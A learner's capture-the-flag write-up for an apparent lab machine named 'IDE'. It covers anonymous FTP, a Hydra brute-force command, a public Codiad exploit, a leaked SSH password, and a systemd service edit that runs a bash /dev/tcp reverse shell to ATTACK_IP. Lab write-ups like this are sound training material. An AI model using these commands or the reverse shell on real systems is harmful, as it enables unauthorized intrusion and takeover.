


# IDE

Time: 45 minutes

Difficulty: Easy

## What is about?

This challenge test or skill of penetrating. The challenge does not give much explanation about the current state that we are and just give us the goal which is gain a shell and escalate our privileges.

## Challenge

To gain control on the shell we first need to know what ports are open. We scan all the ports with nmap and we encounter the the port 21 is using the service ftp. Exploring on the internet I learn that this service allow the user the send of files. But one thing that is interesting is that he is not using the secure service so we can see the files.

To do that we need to have installed ftp and do `ftp -a MACHINE_IP` to enter the service as Anonymus. We encounter some folders and if we search in the folders we find a file with the name `-`, so we get that file to our computer and we open it. Inside the file it was a letter from Drac to Jonh telling him that he just reset his password and now it is the default password.

 

This information is important because now we know is name and that the password is on default, now we go to a page that I did not tell before when I did the nmap. This web is on the port 62337 and we can see that is a login page.

 

So we know is name but not the password but is no default, for this problem Hydra will help us. I pass Hydra the IP and a rockyou.txt for the password with this command `hydra -l john -s 62337 -P rockyou.txt ATTACK_MACHINE_IP http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username or Password"`, and it gave me that the password is `password`. We enter with this credentials and we are in. 

In the page we do not have anything of value, but know we know the user and password, so we go to the intenet to know exploits on the application Codiac. We encounter that it have vulnerabilities and we focus on CVE-2018-14009. We download the vulnerability which is a code in python and we run it and we are in the machine. We naviagte though the files to go to the Desktop of the user, when we reached the folder we do a `ls -la` and we encounter the test that contains the answer to the question of the challenge, but it cannot be opened. However there is something useful here on the desktop and it is the bash_history, so we open the file and inside is a command to an sql to save his user and password.

So now with this information we go to ssh to enter as `drac` with the password `Th3dRaCULa1sR3aL`. And now we can see what is inside `user.txt`.

With that part made now we need to escalate privileges. To do that we go to the file `vsftpd.service` to edit the line `ExecStart=/usr/sbin/vsfpd/ /etc/vsftpd.conf` to `ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACK_IP/8888 0>&1'`. Before we do the next step we need to listen into that port with our attack machine with `nc -lnvp 8888`. Now we do on the machine a `systemctl daemon-reload` and `sudo /usr/sbin/service vsftpd restart`, thanks to this we got access to the machine as root and now is just a matter of time to find our file with the answer. 

## Conclusion

This challenge was difficulty, there was so many things that I did not know like reverse shell, vulnerabilities of ftp and so on. Moreover hydra was causing me problems because I did not catch that it went to the controller. Howerver not everything is black, I learn many thing that I'm going to know for future challenges and hopefuly thanks to this the next challenges will become easier.